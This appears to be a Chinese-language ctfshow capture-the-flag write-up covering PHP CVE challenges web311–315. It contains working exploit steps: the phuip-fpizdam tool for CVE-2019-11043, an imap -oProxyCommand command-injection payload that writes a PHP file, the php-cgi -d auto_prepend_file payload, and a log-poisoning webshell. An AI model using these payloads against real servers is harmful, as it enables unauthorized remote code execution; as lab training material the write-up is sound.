










---
title: "ctfshow入门phpCVE"
date: 2025-06-06T13:17:44+08:00
summary: "ctfshow入门phpCVE"
url: "/posts/ctfshow入门phpCVE(已做完)/"
categories:
  - "ctfshow"
tags:
  - "phpCVE"
draft: false
---

## web311

### #CVE-2019-11043

看一下PHP的版本是php7.1.33，搜出来是CVE-2019-11043，这个之前复现过，直接用工具打就行了

```
git clone https://github.com/neex/phuip-fpizdam.git
cd phuip-fpizdam
go get -v && go build
```

安装好后运行试一下

```
./phuip-fpizdam
```



然后直接污染进程就行

```
root@VM-16-12-ubuntu:/opt/phuip-fpizdam# go run . http://474ac806-1e82-4f81-ac06-0c265513d0d7.challenge.ctf.show/
2025/06/06 13:24:10 Failed to create requester: well I believe the url must end with ".php". Maybe I'm wrong, delete this check if you feel like it
exit status 1
root@VM-16-12-ubuntu:/opt/phuip-fpizdam# go run . http://474ac806-1e82-4f81-ac06-0c265513d0d7.challenge.ctf.show/index.php
```



成功了，然后我们传入

```
?a=id
```

注意，因为php-fpm会启动多个子进程，在访问/index.php?a=id时需要多访问几次，以访问到被污染的进程。



出来了，能RCE，那就直接读flag吧

```
/index.php?a=cat fl0gHe1e.txt
```

## web312

### #CVE-2018-19158

看到这个带邮箱以及用户名密码的界面一眼就知道是CVE-2018-19158了，关于php的imap扩展的一个命令执行漏洞，直接打就行

先抓包构造请求



因为是通过ssh中一个参数-oProxyCommand执行命令的，那我们在第一个参数中传入该参数，也就是在hostname中传入

```
BASE64 编码 <?=phpinfo()?>得到PD9waHAgcGhwaW5mbygpOz8+

然后BASE64 编码 + URL编码 echo "PD89cGhwaW5mbygpPz4=" | base64 -d > /var/www/html/test.php得到 ZWNobyAiUEQ4OWNHaHdhVzVtYnlncFB6ND0iIHwgYmFzZTY0IC1kID4gL3Zhci93d3cvaHRtbC90ZXN0LnBocA%3d%3d

传参hostname = x+-oProxyCommand%3decho%09 + 编码后的命令 + |base64%09-d|sh}
```

然后访问test.php



可以看到成功写入文件并解析php代码

后面的话换一下代码写进去然后RCE就行了

## web313

### #CVE-2012-1823

一个参数处理产生的问题导致可以利用cgi参数进行命令执行，我们先用-s参数看一下源码

```
/?-s
```



好吧啥都没有，flag in my disk somewhere源码提示在somewhere中

那就用-d去打文件包含吧

```
?-d+allow_url_include%3Don+-d+auto_prepend_file%3Dphp://input
```

然后post传入php代码



成功执行，那我们直接打

## web314

```php
<?php

error_reporting(0);

highlight_file(__FILE__);

//phpinfo
$file = $_GET['f'];

if(!preg_match('/\:/',$file)){
    include($file);
}
```

这个其实不看cve也能打，用日志文件包含就行了，UA头写马

```
<?=`$_GET[1]`?>
```

然后传参

```
?f=/var/log/nginx/access.log&1=whoami
```



成功执行

## web315

### #Xdebug-RCE

这是php的XDebug远程调试导致代码执行漏洞https://github.com/vulhub/vulhub/blob/master/php/xdebug-rce/README.zh-cn.md



这道题有exp，直接用


